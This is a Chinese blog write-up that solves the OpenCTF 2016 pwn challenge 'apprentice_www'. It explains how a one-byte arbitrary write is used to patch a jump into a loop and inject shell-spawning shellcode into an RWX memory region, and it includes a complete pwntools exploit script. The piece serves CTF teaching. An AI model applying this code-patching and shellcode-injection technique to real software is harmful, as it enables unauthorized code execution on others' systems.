





<!--yml
category: 未分类
date: 2022-04-26 14:40:44
-->

# Openctf-2016-pwn-apprentice_www 题解___lifanxin的博客-CSDN博客

> 来源：[https://blog.csdn.net/A951860555/article/details/113714481](https://blog.csdn.net/A951860555/article/details/113714481)

# 文件信息

该样本来自2016年Openctf的一道pwn题–[apprentice_www](https://download.csdn.net/download/A951860555/15120752)
检查文件信息：
  32位小端程序，只开启NX保护


# 漏洞定位


程序main函数如上图所示，setup函数中使用了mprotect开辟了一个可写、可读以及可执行的内存区域，其截图如下；加上checksec信息中的NX保护，其实这里已经暗示了将shellcode存储在此然后执行的漏洞利用方法。

接下来我们看一下butterflySwag函数，如下图所示，其中第一个scanf函数以%u的方式读取第一次输入，第二个scanf函数以%d的方式读取第二次输入，再结合下面两行代码，我们可以理解为该程序将v2（单字节）复制到v1指向的内存地址中。最后还剩下一堆puts打印文字信息，但没有啥实际的用处。


# 利用分析

结合上面的分析，我们可以很轻松的想到ret2shellcode的方法，通过上面两个scanf函数，将shellcode注入到mprotect开辟的可写可执行内存空间。定位该空间可以直接通过动态调试，如下图所示，最开始的两行输出展示了该内存区块的信息。


但有个问题就是一次运行只能读取一个字节，所以这里需要先改变程序运行逻辑，尝试循环执行scanf函数，待正确读入shellcode后跳转到存储的地址执行shellcode。最后还需要注意的一个问题是读入的shellcode是以%d读取的，所以此时不能以字母的形式进行输入，也就是说如果要读入`a`字符，应将其转化为`61`（当然作为输入，类型还是字符串，也就是输入61这个字符串)，这样存储在内存中的自然就是`61`，否则scanf函数读取出错。

# wp

```
from pwn import *

context.log_level = "debug"
p = process("./apprentice_www")

jnz_addr = 0x080485DA
text_addr = 0x080485DB  

context(os="linux", arch="i386")
code = asm(shellcraft.sh())
code = code.decode("ISO-8859-1")

p.sendline(str(jnz_addr))
p.sendline(str(0xc2))    

for i in range(len(code)):
    p.sendline(str(text_addr+i))
    p.sendline(str(ord(code[i])))

p.sendline(str(jnz_addr))
p.sendline(str(0x00))
p.interactive() 
```

# 总结

该题目是传统shellcode漏洞利用的变形考法，虽然开启了NX保护，但又在程序中开辟了可写可执行的内存区域。为了增加难度，使用了scanf函数每次只能存储单个字节，并且需要自己想办法构造循环才能完整的存储shellcode。同时注意到%d和%u的格式化读取方式，该方式只能读取数字类型的字符串。